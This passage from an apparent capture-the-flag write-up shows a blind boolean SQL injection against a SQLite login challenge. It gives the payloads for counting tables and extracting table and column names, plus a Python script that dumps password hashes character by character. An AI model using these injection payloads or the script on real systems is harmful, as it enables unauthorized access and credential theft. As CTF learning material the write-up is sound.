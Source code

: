 If those password hint are not lies, each of them would take way too long to guess manually or bruteforce over the web.
So back to SQL injections.

Throwing a `"` after the username and trying to log in results in an error.

### Error: Invalid input!

But commenting out the rest of the query using `-- -` results in a blank `200 OK` page.
Trying to further nail it down i tried `bob" and 1=1 -- -`, which was again a `200 OK`.
`bob" and 1=2 -- -` on the other hand showed the error from before again.
What we have here is a blind boolean based SQL injection.

Looking at a cheatsheet for sqlite injections i found
```SQL
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```
Which is a boolean way to figure out the number of tables.
Sending the username `bob" and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) = 1 -- -`
tells us that there is only one table.
Time to figure out the name of the table.

```SQL
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

This one allows us to extract the table name one character at a time.
Quickly doing this by hand we found our table `users`.
Now we need to figure out the columns and their respective names.

For this i used the `PRAGMA_TABLE_INFO('');` function in sqlite.

```SQL
(SELECT count(name) FROM PRAGMA_TABLE_INFO('users')) < 10
```
Using this we find the number of columns in the table, which is `4`.
Now we can extract the column names.

```SQL
(SELECT hex(substr(name,1,1)) FROM PRAGMA_TABLE_INFO('users') limit 1 offset 0) < hex('a')
```
Quickly automating this using ffuf/intruder lets us slowly dump the columns names one character at a time by first increasing the `substr(name,1,1)` call
to `substr(name,2,1)` until the end of the name. Then resetting and instead increasing the `offset 1` to get the next row of results, which is out next column name.

Now we have the column names `username, password_hash, hint, bio`.
Using the same SQL injections from above i quickly checked which position each user hold in the rows and then slowly started dumping the password hashes with a py script.

```python
import requests

url = "https://login.chal.uiuc.tf/"

letters = "abcdefghijklmnopqrstuvwxyz1234567890"

password = "";
query = 'bob"and (select substr(password_hash,{},1) from users limit 1 offset 4) = "{}" -- -'

for i in range(1,33):
    for letter in letters:
        sql = {'username': query.format(i,letter) ,'password':'asd'}
        x = requests.post(url, data=sql)
        
        if len(x.content) == 0:
            password += letter
```